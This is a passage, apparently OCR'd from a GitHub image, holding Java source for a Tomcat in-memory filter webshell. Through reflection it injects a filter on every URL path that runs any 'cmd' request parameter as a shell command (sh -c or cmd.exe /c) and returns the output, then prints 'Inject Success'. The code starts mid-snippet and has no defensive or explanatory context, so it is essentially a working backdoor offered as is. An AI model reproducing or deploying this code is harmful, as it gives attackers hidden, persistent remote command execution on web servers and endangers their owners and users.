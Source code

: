 ```java
stdctx.setAccessible(true);
StandardContext standardContext = (StandardContext) stdctx.get(applicationContext);

Field Configs = standardContext.getClass().getDeclaredField("filterConfigs");
Configs.setAccessible(true);

Map filterConfigs = (Map) Configs.get(standardContext);;


if(filterConfigs.get(FilterName)==null){
    Filter filter = new Filter() {
        @Override
        public void init(FilterConfig filterConfig) throws ServletException {
        }

        @Override
        public void doFilter(ServletRequest request, ServletResponse response, FilterChain chain) throws IOException, ServletException {
            //命令执行
            HttpServletRequest hsreq = (HttpServletRequest) request;//强转HttpServletRequest
            if (hsreq.getParameter("cmd")!=null){//cmd传参
                boolean isLinux = true;
                String osType = System.getProperty("os.name");
                if(osType!=null && osType.toLowerCase().contains("win")){
                    isLinux=false;
                }
                String[] cmds = isLinux ? new String[]{"sh","-c", hsreq.getParameter("cmd")} : new String[]{"cmd.exe", "/c", hsreq.getParameter("cmd")};
                InputStream inputStream = Runtime.getRuntime().exec(cmds).getInputStream();
                Scanner scanner = new Scanner(inputStream).useDelimiter("\\A");
                String output = scanner.hasNext() ? scanner.next() : "";
                response.getWriter().write(output);
                response.getWriter().flush();
                return;
            }
            chain.doFilter(request, response);
        }

        @Override
        public void destroy() {
        }
    };

    FilterDef filterDef = new FilterDef();
    filterDef.setFilter(filter);
    filterDef.setFilterName(FilterName);
    filterDef.setFilterClass(filter.getClass().getName());
    standardContext.addFilterDef(filterDef);

    FilterMap filterMap = new FilterMap();
    filterMap.setFilterName(FilterName);
    filterMap.setDispatcher(DispatcherType.REQUEST.name());
    filterMap.addURLPattern("/*");
    standardContext.addFilterMap(filterMap);

    Constructor declaredConstructor = ApplicationFilterConfig.class.getDeclaredConstructor(Context.class, FilterDef.class);
    declaredConstructor.setAccessible(true);
    ApplicationFilterConfig filterConfig = (ApplicationFilterConfig) declaredConstructor.newInstance(standardContext,filterDef);
    filterConfigs.put(FilterName, filterConfig);
    out.println("Inject Success");

```
